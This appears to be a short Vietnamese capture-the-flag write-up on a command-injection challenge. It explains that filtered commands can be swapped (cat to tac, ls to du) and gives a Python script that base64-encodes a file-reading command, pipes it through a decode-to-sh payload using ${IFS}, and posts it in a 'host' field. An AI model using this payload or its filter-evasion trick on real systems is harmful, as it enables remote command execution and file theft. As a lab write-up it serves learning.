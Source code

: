 Vào thẳng vấn đề luôn, bài này thuộc dạng command injection .Nó lọc 1 số từ khóa của các câu lệnh unix phổ biến những vẫn chừa cho ta một vài câu lênh phổ biến để ta biết chắc rằng bị command injection.  

dựa vào lời giải trên mạng tôi đã phát hiện ra một rối câu lệnh có thể thay thế cho các câu lệnh bị chặn ví dụ

-ls -> du
-cat -> tac

để giải bài này thì ta sẽ chuyển các câu lệnh của ta sang base64 rồi giải mã đó để nó thực hiện


```
import requests
import base64

# Câu lệnh Unix mà bạn muốn thực thi
unix_command = "cat /flag.txt | base64"

# Mã hóa câu lệnh thành chuỗi base64
encoded_command = base64.b64encode(unix_command.encode('utf-8')).decode('utf-8')

# Tạo payload để thực hiện command injection
payload = "echo${IFS}" + encoded_command + "|base64${IFS}-d|sh"

# Gửi yêu cầu POST với payload command injection
r = requests.post("https://4bbd896ee6650a40c580bd79.deadsec.quest/flag", data={'host': payload})

# In kết quả
print(r.text)
```
